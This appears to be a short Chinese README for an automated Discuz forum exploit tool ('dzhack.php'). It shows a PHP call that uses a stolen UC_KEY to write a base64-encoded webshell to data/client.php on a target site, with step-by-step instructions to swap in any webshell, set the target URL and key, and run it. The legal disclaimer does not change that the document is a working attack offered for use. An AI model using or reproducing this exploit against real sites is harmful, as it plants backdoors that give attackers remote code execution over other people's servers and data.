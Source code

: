 #### Discuz 全自动 GetShell

打开 `dzhack.php`, 找到 

```
   $webshell = '<?php phpinfo(); ?>';
 
   list ($status, $data) = $dz->hack (
      'http://ubuntu64/dz/',
      'K856C548X2xaTcDdc248I1pc57gdq4vdL2SdH3ifGd4a0ec6UdcfX0B7m9Ubrcs4',
      'file_put_contents("data/client.php", base64_decode ("' . base64_encode ($webshell) . '"));'
   );
```

先把 `$webshell` 的内容改了，不需要考虑编码问题，

然后修改第一行为 discuz 的起始路径，第二行为你找到的 UC_KEY

然后执行 `php dzhack.php`,

会在 `data/client.php` 下面生成一个 webshell,

##### Legal Disclaimer

Using this tool is legit but hacking may not be. The author does not take any responsibility for such activities.

